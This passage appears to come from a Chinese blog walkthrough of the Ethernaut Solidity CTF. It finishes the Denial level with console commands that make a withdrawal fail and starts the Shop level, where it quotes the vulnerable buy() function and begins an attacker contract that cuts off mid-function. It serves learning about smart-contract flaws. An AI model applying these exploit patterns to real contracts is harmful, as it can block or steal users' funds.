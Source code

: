 ![部署攻击合约](https://img-blog.csdnimg.cn/f0cd3cd1374e4f0ca6516766b8428192.png#pic_center)
输入`await contract.setWithdrawPartner('0xF8fc486804A40d654CC7ea37B9fdae16D0A5d8a7')`将攻击合约设置为`partner`角色。
![设置partner](https://img-blog.csdnimg.cn/d4ed6acd369842efa564a9c6a5e79116.png#pic_center)
此时我们发起`withdraw`测试一下。输入`await contract.withdraw()`，结果发现由于gas耗尽，所以失败。
![withdraw调用失败](https://img-blog.csdnimg.cn/296c2424b45f449683000578bbd2dc4e.png#pic_center)
提交实例，本关卡成功！
![关卡成功](https://img-blog.csdnimg.cn/61901287084249e98a07f9d5f0c28736.png#pic_center)
## 总结
还是那句老话，合约的交互是难以信任的。
<hr>

# 21 Shop
## 创建实例并分析

根据先前的步骤，创建合约实例，其合约地址为`0xaF30cef990aD1D3b641Bad72562f62FF3A0977C7`。本关卡的目的是用低于问讯要求的价格实现购买。其具体代码段如下：

```
  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
```
合约会询问用户`msg.sender`（所以可以是智能合约）的出价，如果其`price()`函数返回的结果超过当前的定价并且商品仍未卖出，则会将定价设为用户的出价。现在看应该是要求用户两次出价返回的结果不同。然而，我们可以看到`Buyer`类型的接口`price()`是一个`view`类型的函数，这表明只能读取变量而不应当对变量有所修改，即不能改变当前合约的状态。这可怎么办呢？

那么有没有办法能够使得`view`方法两次返回的值不同呢？目前来说，有两种方法：

- 依托于外部合约的变化
- 依托于本身变量的变化

## 攻击合约编写
### 外部合约的状态变化
如果`view`类型方法依托于外部合约的状态，通过询问外部变量，即可无修改地实现返回值的区别。

同样基于remix，我们编写合约如下：

```
pragma solidity ^0.6.0;


interface Shop {
  function buy() external;
  function isSold() external view returns (bool);码
}

contract attacker {

    Shop shop;

    constructor(address _addr) public {
        shop = Shop(_addr);
    }

    function attack() public {
        shop.buy();
```